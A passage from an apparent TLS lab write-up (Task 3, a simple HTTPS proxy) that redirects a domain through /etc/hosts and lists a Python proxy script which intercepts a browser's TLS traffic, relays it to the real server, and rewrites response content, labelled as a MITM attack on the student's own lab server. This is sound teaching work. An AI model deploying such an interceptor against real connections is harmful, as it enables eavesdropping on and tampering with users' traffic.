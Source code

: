 ```python3
        print("TLS connection fails")
        continue
```

- Open the browser and test all the domains above.

# Task 3: A Simple HTTPS Proxy

- Add the following entry to `/etc/hosts` in the Host VM. Comment out the other ones added before.

```
10.9.0.143      www.pinto2022.com
```

This simulates the existence of a proxy because the traffic for `www.pinto2022.com` will be redirected through `10.9.0.143`.

- Add `nameserver   8.8.8.8` to the `/etc/hosts` in the **proxy** container.

- **Launch the MITM attack against your own server.**
  - Add `10.9.0.43  www.pinto2022.com` to the `/etc/hosts/` of the **proxy** container.
  
  - Run `server.py` in the server container, and `proxy.py` in the proxy container.
  - Type `www.pinto2022.com` in the browser.
  
  - `proxy.py`
  
  ```python3
  #!/usr/bin/env python3

  import socket
  import ssl
  import pprint
  import threading

  def process_request(ssock_for_browser):
      hostname = "www.pinto2022.com"

      # Make a connection to the real server
      context_client = ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)  # For Ubuntu 20.04 VM
      # context = ssl.SSLContext(ssl.PROTOCOL_TLSv1_2)      # For Ubuntu 16.04 VM
      
      cadir = './client-certs'
      context_client.load_verify_locations(capath=cadir)
      context_client.verify_mode = ssl.CERT_REQUIRED
      context_client.check_hostname = True
      sock_for_server = socket.create_connection((hostname, 443))
      ssock_for_server = context_client.wrap_socket(
          sock_for_server,
          server_hostname=hostname,
          do_handshake_on_connect=False
      )
      
      ssock_for_server.do_handshake() 
      request = ssock_for_browser.recv(2048)
      pprint.pprint("Request: {}".format(request))
      if request:
          # Forward request to server
          ssock_for_server.sendall(request)

          # Get response from server, and forward it to browser
          response = ssock_for_server.recv(2048)
          response = response.replace(b"Bank32", b"FEUP22")
          while response:
              ssock_for_browser.sendall(response) # Forward to browser
              response = ssock_for_server.recv(2048)
  ```